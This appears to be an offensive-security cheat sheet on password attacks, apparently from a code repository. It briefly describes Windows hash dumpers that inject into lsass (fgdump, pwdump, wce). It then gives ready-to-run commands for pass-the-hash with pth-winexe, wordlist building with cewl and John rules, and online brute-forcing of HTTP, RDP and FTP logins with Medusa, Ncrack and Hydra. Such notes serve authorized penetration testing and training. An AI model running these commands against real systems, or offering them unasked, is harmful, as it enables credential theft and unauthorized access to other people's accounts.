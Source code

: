 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
wce64.exe for x64

wce.exe for x86


## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
See man page for examples

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt
```

### John tricks

add 2 numbers to the end of every password

```
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
```

## LM/NTLM
xp/2k3 and prior use LM

vista/2k8 and newer use NTLM
